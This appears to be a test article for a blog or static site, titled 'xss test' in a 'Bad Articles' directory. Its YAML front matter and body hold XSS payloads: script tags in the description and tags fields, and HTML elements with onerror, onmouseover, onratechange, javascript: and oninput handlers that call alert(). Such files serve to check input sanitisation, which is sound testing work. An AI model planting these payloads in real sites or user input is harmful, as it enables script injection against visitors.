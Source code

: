 ```yaml
---
title: xss test
date: 2019-07-18T08:23:44.456Z
description: <script>alert("hello")</script>
directory: Bad Articles
priority: 1
tags:
  - <script>alert("hello")</script>
---
```

<Video> <source onerror = "javascript: alert (XSS)">

<IMG SRC=# onmouseover="alert('xxs')">

<video src onratechange="alert(1)">



";alert('XSS');//

<video poster=javascript:alert(1)//></video>

<body oninput=alert(1)><input autofocus>
